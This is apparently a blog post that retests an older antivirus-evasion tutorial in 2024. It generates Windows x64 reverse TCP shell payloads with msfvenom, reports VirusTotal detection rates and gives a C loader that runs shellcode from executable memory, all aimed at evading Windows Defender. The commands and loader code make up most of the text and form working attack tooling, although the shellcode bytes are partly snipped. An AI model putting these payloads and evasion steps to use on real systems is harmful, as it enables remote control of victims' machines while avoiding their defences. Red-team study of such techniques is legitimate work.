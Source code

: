 I _loved_ this post when I was starting out as seeing the VirusTotal detections slowly decrease with each step was so satisfying. 

However, I was sadly disappointed by the results when I followed through the same steps. Let's try out these techniques today, in 2024.

```bash
┌──(kali㉿kali)-[~/bruh]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f exe > implant_x64.exe   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

The original article got: 48/68 or **70.6%** detections.

![msf1](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LN_AaNCmLBXOjQbjcTg%2F-LN_K0T7sNTDWSbmUIsm%2Fmsf-templates-default-payload.png?alt=media&token=db1f1a48-08a2-4919-ae2d-9c87fc815e92)

My results were: 58/72 or **80.6%** detections

![msf1](https://i.gyazo.com/07879cd9e2060a08b9bab50165a971bc.png)

It doesn't seem too large of a difference so far, let's move all the way to the techniques that evaded Windows Defender at the time.

### Windows Defender? I barely know 'er

The article used a custom shellcode loader that casted the start address of the shellcode to a function, and called the function to execute the shellcode.

```bash
┌──(kali㉿kali)-[~/bruh]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of c file: 1963 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"

[... SNIP ...]

"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```


```c 
#include <windows.h>
unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	[... SNIP ...]
    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main() {
    void * exec = VirtualAlloc( 0, sizeof( buf ), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
    RtlMoveMemory( exec, buf, sizeof( buf ) );
    ( (void ( * )())exec )();
    return 0;
}
```

